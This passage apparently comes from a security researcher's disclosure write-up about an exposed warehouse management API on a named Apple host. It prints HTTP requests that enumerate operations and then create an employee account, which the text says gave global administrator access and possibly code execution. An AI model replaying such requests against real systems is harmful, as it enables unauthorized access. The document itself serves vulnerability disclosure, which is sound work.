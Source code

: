 ```html
GET /Apriso/HttpServices/api/platform/1/Operations/operation HTTP/1.1
Host: colormasters.apple.com

<!-- With the following HTTP response: -->

    {
      "InputTypes": {
        "OrderNo": "Char",
        "OrderType": "Integer",
        "OprSequenceNo": "Char",
        "Comments": "Char",
        "strStatus": "Char",
        "UserName": "Char"
      },
      "OutputTypes": {},
      "OperationCode": "APL_Redacted",
      "OperationRevision": "APL.I.1.4"
    }

<!-- to actually call the API, send a POST request with JSON data in the following format: -->

    {
      "inputs": {
        "param": "value"
      }
    }
```

The "create employee" function required various parameters that relied on UUIDs
- but we were able to retrieve these via the other "Operations" and fill them in as we went along.
- formed the following API request
- After we sent this API call, we could now authenticate as a global administrator to the application.
- This gave us full oversight to the warehouse management software and probably RCE via some accepted functionality.


```html
    POST /Apriso/HttpServices/api/platform/1/Operations/redacted HTTP/1.1
    Host: colormasters.apple.com
    Authorization: Bearer redacted
    Connection: close
    Content-Type: application/json
    Content-Length: 380
    {
      "inputs": {
        "Name": "Samuel Curry",
        "EmployeeNo": "redacted",
        "LoginName": "yourloginname123",
        "Password": "yourpassword123",
        "LanguageID": "redacted",
        "AddressID": "redacted",
        "ContactID": "redacted",
        "DefaultFacility": "redacted",
        "Department": "",
        "DefaultMenuItemID": "redacted",
        "RoleName": "redacted",
        "WorkCenter": ""
      }
    }
```
